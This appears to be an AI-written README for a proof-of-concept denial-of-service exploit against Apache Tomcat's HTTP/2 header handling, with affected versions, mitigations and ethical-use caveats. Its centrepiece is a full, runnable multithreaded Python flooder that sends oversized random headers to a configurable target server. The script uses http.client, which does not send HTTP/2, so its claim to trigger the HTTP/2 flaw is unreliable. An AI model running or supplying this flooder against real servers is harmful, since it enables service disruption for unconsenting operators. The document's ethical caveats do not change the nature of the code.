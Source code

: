 Here’s a `README.md` for a Proof of Concept (PoC) demonstrating the Denial of Service (DoS) vulnerability in Apache Tomcat due to improper input validation of HTTP/2 requests:

---

# Proof of Concept (PoC) for Denial of Service (DoS) Vulnerability in Apache Tomcat

This repository contains a Proof of Concept (PoC) script demonstrating a Denial of Service (DoS) vulnerability in Apache Tomcat. The vulnerability arises from improper input validation of HTTP/2 requests, leading to potential DoS conditions.

## Vulnerability Description

**CVE-ID**: (Pending)

**Overview**:
Apache Tomcat versions from 11.0.0-M1 through 11.0.0-M16, 10.1.0-M1 through 10.1.18, 9.0.0-M1 through 9.0.85, and 8.5.0 through 8.5.98 are vulnerable to a Denial of Service attack. The issue occurs when processing HTTP/2 requests with headers exceeding configured limits. The HTTP/2 stream is not reset until after all headers have been processed, potentially leading to resource exhaustion.

**Affected Versions**:
- Apache Tomcat 11.0.0-M1 through 11.0.0-M16
- Apache Tomcat 10.1.0-M1 through 10.1.18
- Apache Tomcat 9.0.0-M1 through 9.0.85
- Apache Tomcat 8.5.0 through 8.5.98

**Mitigations**:
- Upgrade to Apache Tomcat versions 11.0.0-M17, 10.1.19, 9.0.86, or 8.5.99 or later.

## PoC Details

This PoC script demonstrates how to exploit the DoS vulnerability by sending HTTP/2 requests that exceed the configured header limits. The script sends a large number of requests to exhaust resources on the server.

### PoC Script

```python
import http.client
import threading
import logging
import time
import random
import string
import argparse
import os

# Configuration defaults
DEFAULT_HOST = "target-server"
DEFAULT_PORT = 443
DEFAULT_NUM_REQUESTS = 1000
DEFAULT_CONCURRENT_THREADS = 10
DEFAULT_REQUEST_INTERVAL = 0.5
DEFAULT_LOG_FILE = "requests.log"

# Setup logging
logging.basicConfig(level=logging.INFO, format='%(asctime)s - %(levelname)s - %(message)s')

def random_string(length):
    """Generate a random string of fixed length."""
    letters = string.ascii_letters + string.digits
    return ''.join(random.choice(letters) for i in range(length))

def dynamic_payload():
    """Generate a dynamic payload for requests."""
    return random_string(random.randint(10, 100))

def send_request(conn, method, endpoint, headers, payload):
    """Send a single HTTP request."""
    conn.request(method, endpoint, body=payload, headers=headers)
    response = conn.getresponse()
    return response.status, response.reason

def send_dos_requests(host, port, num_requests, concurrent_threads, request_interval, log_file):
    def worker(thread_id):
        conn = None
        try:
            conn = http.client.HTTPSConnection(host, port, timeout=10)
            for i in range(num_requests // concurrent_threads):
                method = random.choice(["GET", "POST"])
                headers = {
                    "Content-Type": "application/x-www-form-urlencoded",
                    "X-Test-Header": random_string(65536)
                }
                payload = dynamic_payload() if method == "POST" else None
                status, reason = send_request(conn, method, "/", headers, payload)
                logging.info(f"Thread {thread_id} - Request {i + 1}: Status Code: {status}, Reason: {reason}")

                with open(log_file, "a") as logf:
                    logf.write(f"Thread {thread_id} - Request {i + 1}: Status Code: {status}, Reason: {reason}\n")

                time.sleep(request_interval)

        except Exception as e:
            logging.error(f"Thread {thread_id} - An error occurred: {e}")
        finally:
            if conn:
                conn.close()

    # Create and start threads
    threads = []
    for i in range(concurrent_threads):
        thread = threading.Thread(target=worker, args=(i + 1,))
        thread.start()
        threads.append(thread)
        time.sleep(0.1)

    for thread in threads:
        thread.join()

    logging.info("Completed sending requests")

def parse_args():
    """Parse command-line arguments."""
    parser = argparse.ArgumentParser(description="HTTP Request Flooder")
    parser.add_argument('--host', default=DEFAULT_HOST, help='Target server address')
    parser.add_argument('--port', type=int, default=DEFAULT_PORT, help='Target server port')
    parser.add_argument('--num-requests', type=int, default=DEFAULT_NUM_REQUESTS, help='Total number of requests to send')
    parser.add_argument('--concurrent-threads', type=int, default=DEFAULT_CONCURRENT_THREADS, help='Number of concurrent threads')
    parser.add_argument('--request-interval', type=float, default=DEFAULT_REQUEST_INTERVAL, help='Interval between requests')
    parser.add_argument('--log-file', default=DEFAULT_LOG_FILE, help='File to log request results')
    return parser.parse_args()

if __name__ == "__main__":
    args = parse_args()
    logging.info(f"Starting flooder with {args.num_requests} requests to {args.host}:{args.port} using {args.concurrent_threads} threads")
    send_dos_requests(
        host=args.host,
        port=args.port,
        num_requests=args.num_requests,
        concurrent_threads=args.concurrent_threads,
        request_interval=args.request_interval,
        log_file=args.log_file
    )

```

### Explanation

1. **Configuration**: Set `host` to the target server address and `port` to the appropriate port (typically 443 for HTTPS). Adjust `num_requests` to control the number of requests sent.
2. **Create Connection**: The script establishes an HTTPS connection to the target server.
3. **Headers**: A large header value is used to exceed the configured header limits and trigger the vulnerability.
4. **Send Requests**: The script sends multiple HTTP/2 POST requests with oversized headers to the target server.
5. **Print Status**: Prints the status code of each request to monitor the impact.

## Important Considerations

- **Permissions**: Ensure you have explicit permission to perform this test on the target server. Unauthorized testing is illegal and unethical.
- **Testing Environment**: Conduct tests in a controlled environment to avoid disrupting production services.
- **Ethical Use**: Use this PoC responsibly and only in authorized contexts.

## Mitigation

To mitigate this vulnerability:

1. **Upgrade Apache Tomcat**: Update to versions 11.0.0-M17, 10.1.19, 9.0.86, or 8.5.99 or later.
2. **Review Configuration**: Adjust server configurations to handle large or malicious HTTP/2 requests more effectively.
3. **Monitor Resources**: Implement monitoring to detect and respond to unusual request patterns that may indicate a DoS attack.

For more information on securing your Apache Tomcat installation, refer to the official [Apache Tomcat documentation](https://tomcat.apache.org/).

---

This `README.md` provides an overview of the vulnerability, the PoC script, and instructions for mitigation. Ensure you handle this PoC responsibly and only on systems where you have explicit authorization.
